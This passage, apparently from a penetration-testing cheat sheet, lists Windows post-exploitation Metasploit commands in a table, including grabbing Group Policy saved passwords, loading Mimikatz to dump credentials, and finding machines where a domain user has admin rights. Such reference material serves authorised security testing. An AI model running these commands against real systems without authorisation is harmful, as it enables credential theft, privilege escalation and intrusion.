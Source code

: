   </tbody>
</table>
</div>


### Post Exploit Windows Metasploit Modules

Windows Metasploit Modules for privilege escalation. 

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <p><code>run post/windows/gather/win_privs</code></p>
      </td>
      <td>
            <p>Metasploit show privileges of current user</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>use post/windows/gather/credentials/gpp</code></p>
      </td>
      <td>
            <p>Metasploit grab GPP saved passwords</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>load mimikatz -> wdigest</code></p>
      </td>
      <td>
            <p>Metasplit load Mimikatz</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>run post/windows/gather/local_admin_search_enum</code></p>
      </td>
      <td>
        <p>Idenitfy other machines that the supplied domain user has administrative access to</p>
      </td>
    </tr>
